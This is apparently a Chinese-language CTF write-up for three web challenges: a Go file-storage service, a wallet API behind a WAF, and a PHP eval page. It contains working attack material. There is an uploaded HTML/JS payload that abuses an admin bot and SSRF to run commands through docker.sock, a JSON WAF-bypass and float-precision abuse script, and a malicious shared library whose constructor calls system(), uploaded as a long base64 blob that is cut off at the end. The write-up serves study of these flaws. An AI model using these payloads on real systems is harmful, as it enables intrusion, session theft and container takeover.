



## go-storage || XXX || SOLVED


### 题目描述

> People say golang is secure, so I'm rewriting legacy code to golang for my data storage service.
>
> The title environment is 173.32.X.210:80, where X is the team ID


### 题目分析

* 上传点的“模板扩展名保持”机制

  * Go 的 os.CreateTemp(dir, pattern)把第二个参数当“模板”。如果模板中包含 \*，Go 会用一段随机字符串替换 \*。关键是：模板中 \* 后面的扩展名会被保留。

* 静态文件服务仅按扩展名设置响应类型，.html 会被浏览器当 HTML 渲染执行。

  * getContentType 通过文件名后缀判别 MIME，.html 返回 text/html。

  * 服务端不做内容魔数检测、不设置 nosniff，浏览器会当 HTML 解析执行。这样上传的 HTML 能作为“同源页面”运行任意 JS。

  ```javascript
  http.Handle("/uploads/", http.StripPrefix("/uploads/", http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
      ...
      // 仅按后缀判断 Content-Type，.html/.svg 等会被执行
      contentType := getContentType(fileInfo.Name())
      w.Header().Set("Content-Type", contentType)
      http.ServeContent(w, r, fileInfo.Name(), fileInfo.ModTime(), file)
    })))
  ```

* 管理员 bot 的同源访问与 Cookie 暴露

  ```php
  // 设置session cookie，模拟已登录状态
  await page.setCookie({
    name: 'connect.sid', // cookie名称
    value: sess, // cookie值（session ID）
    // domain: 'portal-service',
    domain: 'nginx-proxy', // cookie所属域名
    path: '/', // cookie路径
    httpOnly: false, // 允许JavaScript访问此cookie
    SameSite: 'Lax', // SameSite策略，Lax模式允许部分跨站请求携带cookie
  });
  ```

  * bot 会先用管理员密码登录，拿到 connect.sid，然后把这个 Cookie 设置到域名 nginx-proxy 且 httpOnly: false。

  * 当 bot 访问你给的 URL 时，如果是 http://nginx-proxy/... 同源页面，你的 JS 能读取 document.cookie，直接窃取 admin 的会话；或者不窃取，直接在页面里用 fetch 对站内接口（如 /admin）发请求，等同于管理员操作。

* SSRF 管理端作为二次放大器

  ```javascript
    // 仅 admin 可用：把 URL + method 交给 superagent 发请求
    app.post("/admin", async (req, res) => {
      ...
      const response = await superagent[method.toLowerCase()](url)
        .set("Content-Type", "application/json")
        .send(body);
      res.render("admin", { response: response.body });
    });
  ```

  * /admin 提供“指定 URL + 方法”的服务器端请求功能，使用 superagent 转发。尽管模板只渲染 response.body（偏向 JSON），但很多内部管理接口是 JSON 的，足以用来发现容器/环境信息。

* docker.sock 暴露给门户容器

  ```php
        - /var/run/docker.sock:/var/run/docker.sock # 暴露 docker.sock
  ```

  * 环境里把 Docker 的 docker.sock 暴露给了 portal 容器，意味着只要 SSRF 能触到它（或你拿到 admin cookie 本地直接打管理端代理），即可通过 Docker Remote API 进入其它容器，读敏感文件（如存储容器 /flag.txt）。

```html
POST /upload HTTP/1.1
Host: 192.168.111.129
Content-Length: 1448
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Origin: http://192.168.111.129
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylowixTAUsBPoMVT0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.111.129/upload/
Accept-Encoding: gzip, deflate, br
Cookie: connect.sid=s%3AOENwjZVOTOpqZkar1ohk0FOgiNQjsU7y.31liqNQCPcdoOfjNuDMWTsNQUuWZmoRpqpTVTHmJOfw
Connection: keep-alive

------WebKitFormBoundarylowixTAUsBPoMVT0
Content-Disposition: form-data; name="uploaded_data"; filename="*.html"
Content-Type: text/html

<!doctype html>
<html>
<body>
<script>
(async () => {
  const adminUrl = 'http://nginx-proxy/admin';

  const createPayload = {
    url: 'http+unix://%2Fvar%2Frun%2Fdocker.sock/v1.41/containers/storage-service/exec',
    method: 'POST',
    body: {
      AttachStdout: true,
      AttachStderr: true,
      Cmd: ["/bin/sh","-lc","cat /flag.txt > /app/src/uploads/flag.jpg"]
    }
  };

  try {
    const r1 = await fetch(adminUrl, {
      method: 'POST',
      headers: {'Content-Type':'application/json'},
      body: JSON.stringify(createPayload)
    });
    const t1 = await r1.text();

    const m = t1.match(/Id&#34;: &#34;(.*)&#34;/i);
    if (!m) throw new Error('can not find exec Id');
    const execId = m[1];

    const startPayload = {
      url: `http+unix://%2Fvar%2Frun%2Fdocker.sock/v1.41/exec/${execId}/start`,
      method: 'POST',
      body: { Detach: false }
    };

    const r2 = await fetch(adminUrl, {
      method: 'POST',
      headers: {'Content-Type':'application/json'},
      body: JSON.stringify(startPayload)
    });
    await r2.text();

    location.href = '/uploads/flag.jpg';
  } catch (e) {
    document.body.textContent = 'error: ' + e;
  }
})();
</script>
</body>
</html>
------WebKitFormBoundarylowixTAUsBPoMVT0--

```



```yaml
POST /visit HTTP/1.1
Host: 192.168.111.129
Content-Length: 60
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://192.168.111.129
Referer: http://192.168.111.129/profile
Accept-Encoding: gzip, deflate, br
Cookie: connect.sid=s%3AOENwjZVOTOpqZkar1ohk0FOgiNQjsU7y.31liqNQCPcdoOfjNuDMWTsNQUuWZmoRpqpTVTHmJOfw
Connection: keep-alive

message=http%3A%2F%2Fnginx-proxy%2Fuploads%2F1319040003.html
```




***

## Wallet || XXX || SOLVED


### 题目描述

Can u get enough balance..?


### 整体架构

### 服务部署架构

```plain text
用户请求 → Gateway (端口3000, Fastify + WAF规则)
              ↓ (代理转发)
         Backend (端口4000, Express + 业务逻辑)
```

两个服务运行在同一个 Docker 容器中：

* Gateway: 监听 0.0.0.0:3000 (对外暴露)

* Backend: 监听 127.0.0.1:4000 (内部访问)


获取 flag 的条件: 账户余额 ≥ 100,000.01

* Admin 初始余额: 100,000

* 普通用户初始余额: 0

* Flag 存储在: /flag 文件中

### Gateway (网关层 - WAF防护)

```javascript
app.addHook('preParsing', async (req, reply, payload) => {
  const normalizedUrl = decodeURIComponent(req.url)
    .toLowerCase()
    .split(/[?#]/)[0]
    .replace(/\/+$/, '');

  if (normalizedUrl === "/transfer" && req.method === "POST") {
    let chunks = [];
    for await (const chunk of payload) {
      chunks.push(chunk);
    }
    const rawBody = Buffer.concat(chunks);

    if (rawBody[0] === 0xEF && rawBody[1] === 0xBB && rawBody[2] === 0xBF) {
      logTraffic(req, { blocked: true, reason: "Invalid encoding detected", bodyLength: rawBody.length });
      reply.code(400).send({
        error: "Bad Request",
        message: "Invalid character encoding"
      });
      return;
    }

    try {
      const body = JSON.parse(rawBody.toString());

      if (body.from && body.from.toLowerCase() === "admin") {
        logTraffic(req, { blocked: true, reason: "Transfer from admin account is forbidden" });
        reply.code(403).send({
          error: "Forbidden",
          message: "Transfer from admin account is not allowed"
        });
        return;
      }

      if (body.amount && body.amount > 50000) {
        logTraffic(req, { blocked: true, reason: "Large transfer detected" });
        reply.code(403).send({
          error: "Forbidden",
          message: "Large transfers are not allowed for security reasons"
        });
        return;
      }

      logTraffic(req, { blocked: false, validated: true });
    } catch (e) {
      logTraffic(req, { parseError: true, message: e.message, bodyLength: rawBody.length });
    }

    const { Readable } = require('stream');
    return Readable.from([rawBody]);
  }
});
```




### Backend (业务逻辑层)


API 端点

1. POST /register: 注册用户（初始余额为 0）

2. POST /balance: 查询余额

3. POST /transfer: 转账（核心漏洞点）

4. GET /flag: 获取 flag（需要余额 ≥ 100,000.01）

5. GET /users: 查看所有用户

6. GET /: 前端页面

转账逻辑

```javascript
app.post("/transfer", (req, res) => {
  const { from, to, amount } = req.body;

  if (!from || !to || typeof from !== "string" || typeof to !== "string") {
    return res.status(400).json({ error: "Invalid from or to username" });
  }

  if (typeof amount !== "number" || amount <= 0) {
    return res.status(400).json({ error: "Invalid amount" });
  }

  const fromUser = users.get(from);
  const toUser = users.get(to);

  if (!fromUser) {
    return res.status(404).json({ error: "From user not found" });
  }

  if (!toUser) {
    return res.status(404).json({ error: "To user not found" });
  }

  if (fromUser.balance < amount) {
    return res.status(400).json({ error: "Insufficient balance" });
  }

  fromUser.balance = fromUser.balance - amount;
  toUser.balance = toUser.balance + amount;

  let score = amount;
  score = Math.sqrt(score);
  score = Math.sqrt(score);
  score = score * score;
  score = score * score;

  const precision_error = score - amount;
  const bonus = Math.abs(precision_error) * 10000000;

  fromUser.balance = fromUser.balance + bonus;

  res.json({
    message: "Transfer successful",
    from,
    to,
    amount,
    bonus: bonus,
    newBalance: fromUser.balance
  });
});
```

Bonus 计算（浮点数精度漏洞）:

```plain text
   score = amount
   score = √√score    // 开两次平方根
   score = score²²    // 平方两次
   precision_error = score - amount
   bonus = |precision_error| × 10,000,000
```

* JavaScript 使用 IEEE 754 双精度浮点数

* 连续的平方根和平方运算会引入精度误差

* 误差 × 10,000,000 放大后产生可观的 bonus


### &#x20;WAF 绕过（BOM + JSON 解析差异）

关键问题: Gateway 和 Backend 对 JSON 的处理不一致

```javascript
// 1. 检查 BOM，如果发现则直接拒绝
if (rawBody[0] === 0xEF && rawBody[1] === 0xBB && rawBody[2] === 0xBF) {
  return reply.code(400).send({...});
}

// 2. 解析 JSON 检查 from 字段
const body = JSON.parse(rawBody.toString());
if (body.from && body.from.toLowerCase() === "admin") {
  return reply.code(403).send({...});
}
```

* 如果能构造特殊编码的 JSON，让 Gateway 解析失败（进入 catch 分支）但不触发 BOM 检测

* 这样请求会被转发到 Backend，而 Backend 可能正确解析出 "from": "admin"


1. 注册用户 bob

2. 构造特殊编码的 payload 绕过 Gateway 的 from: "admin" 检测

3. 让 Backend 解析为 {"from": "admin", "to": "bob", "amount": 50000}

4. 从 admin 账户转走 100,000

5. 获取 flag

### 漏洞利用/解题步骤

伪代码：

```python
import requests
import json

BASE_URL = "http://localhost:3000"

# 注册用户
username = "hacker"
requests.post(f"{BASE_URL}/register", json={"username": username})

# 方法1: 浮点数攻击
# 找到最优的金额值，例如 0.01
for i in range(100000):
    requests.post(f"{BASE_URL}/transfer", json={
        "from": username,
        "to": username,
        "amount": 0.01
    })

# 方法2: WAF绕过（需要构造特殊payload）
# 构造让Gateway解析失败但Backend能解析的JSON
special_payload = b'<special_encoding>{"from":"admin","to":"hacker","amount":50000}'
requests.post(f"{BASE_URL}/transfer", data=special_payload, 
              headers={"Content-Type": "application/json"})

# 获取flag
flag = requests.get(f"{BASE_URL}/flag?username={username}").json()
print(flag)
```

***


## kidding || XXX || SOLVED


[Dockerfile](files/Dockerfile)

[PHP 8.4.14 - phpinfo().html](<files/PHP 8.4.14 - phpinfo().html>)


so ez baby-level php chall?&#x20;

题目

```plain text
<?php
highlight_file(__FILE__);
@eval($_POST["cmd"]);
```

题目分析

reference：

https://hackerone.com/reports/3293801

https://github.com/php/php-src/commit/1b803bc3f57ca58f82f3be6127c8c6d72bc93447


生成恶意的so文件

```cpp
#include <stdlib.h>

// This constructor function is executed automatically by the dynamic loader
// as soon as the library is loaded into the process address space.
__attribute__((constructor))
static void rce_init(void) {
    system("id > /tmp/RCE_VIA_ENGINE");
}
```

```plain text
gcc -fPIC -shared -o evil_engine.so evil_engine.c
```


上传so文件

```yaml
POST / HTTP/1.1
Host: 192.168.149.128:8080
Content-Length: 20677
Cache-Control: max-age=0
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
Origin: http://192.168.149.128:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.149.128:8080/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

cmd=eval(file_put_contents('evil_engine.so',base64_decode('f0VMRgIBAQAAAAAAAAAAAAMAPgABAAAAAAAAAAAAAABAAAAAAAAAABA1AAAAAAAAAAAAAEAAOAAJAEAAHAAbAAEAAAAEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAiAQAAAAAAACIBAAAAAAAAAAQAAAAAAAAAQAAAAUAAAAAEAAAAAAAAAAQAAAAAAAAABAAAAAAAAApAQAAAAAAACkBAAAAAAAAABAAAAAAAAABAAAABAAAAAAgAAAAAAAAACAAAAAAAAAAIAAAAAAAALQAAAAAAAAAtAAAAAAAAAAAEAAAAAAAAAEAAAAGAAAA8C0AAAAAAADwPQAAAAAAAPA9AAAAAAAAIAIAAAAAAAAoAgAAAAAAAAAQAAAAAAAAAgAAAAYAAAAILgAAAAAAAAg+AAAAAAAACD4AAAAAAADAAQAAAAAAAMABAAAAAAAACAAAAAAAAAAEAAAABAAAADgCAAAAAAAAOAIAAAAAAAA4AgAAAAAAACQAAAAAAAAAJAAAAAAAAAAEAAAAAAAAAFDldGQEAAAAECAAAAAAAAAQIAAAAAAAABAgAAAAAAAAJAAAAAAAAAAkAAAAAAAAAAQAAAAAAAAAUeV0ZAYAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEAAAAAAAAABS5XRkBAAAAPAtAAAAAAAA8D0AAAAAAADwPQAAAAAAABACAAAAAAAAEAIAAAAAAAABAAAAAAAAAAQAAAAUAAAAAwAAAEdOVQD88woq1OulYZdEihGwrNzjfDsC5QAAAAABAAAAAQAAAAEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAAAgAAAAAAAAAAAAAAAAAAAAAAAAAFUAAAASAAAAAAAAAAAAAAAAAAAAAAAAAAEAAAAgAAAAAAAAAAAAAAAAAAAAAAAAACwAAAAgAAAAAAAAAAAAAAAAAAAAAAAAAEYAAAAiAAAAAAAAAAAAAAAAAAAAAAAAAABfX2dtb25fc3RhcnRfXwBfSVRNX2RlcmVnaXN0ZXJUTUNsb25lVGFibGUAX0lUTV9yZWdpc3RlclRNQ2xvbmVUYWJsZQBfX2N4YV9maW5hbGl6ZQBzeXN0ZW0AbGliYy5zby42AEdMSUJDXzIuMi41AAAAAQACAAEAAQACAAAAAQABAFwAAAAQAAAAAAAAAHUaaQkAAAIAZgAAAAAAAADwPQAAAAAAAAgAAAAAAAAAABEAAAAAAAD4PQAAAAAAAAgAAAAAAAAACREAAAAAAAAAPgAAAAAAAAgAAAAAAAAAwBAAAAAAAAAIQAAAAAAAAAgAAAAAAAAACEAAAAAAAADIPwAAAAAAAAYAAAABAAAAAAAAAAAAAADQPwAAAAAAAAYAAAADAAAAAAAAAAAAAADYPwAAAAAAAAYAAAAEAAAAAAAAAAAAAADgPwAAAAAAAAYAAAAFAAAAAAAAAAAAAAAAQAAAAAAAAAcAAAACAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEiD7AhIiwXFLwAASIXAdAL%2F0EiDxAjDAAAAAAAAAAAA%2FzXKLwAA%2FyXMLwAADx9AAP8lyi8AAGgAAAAA6eD%2F%2F%2F%2F%2FJZovAABmkAAAAAAAAAAASI09uS8AAEiNBbIvAABIOfh0FUiLBV4vAABIhcB0Cf%2FgDx+AAAAAAMMPH4AAAAAASI09iS8AAEiNNYIvAABIKf5IifBIwe4%2FSMH4A0gBxkjR%2FnQUSIsFLS8AAEiFwHQI%2F+BmDx9EAADDDx+AAAAAAPMPHvqAPUUvAAAAdStVSIM9Ci8AAABIieV0DEiLPSYvAADoWf%2F%2F%2F+hk%2F%2F%2F%2FxgUdLwAAAV3DDx8Aww8fgAAAAADzDx766Xf%2F%2F%2F9VSInlSI0F7A4AAEiJx+gU%2F%2F%2F%2FkF3DAEiD7AhIg8QIwwAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA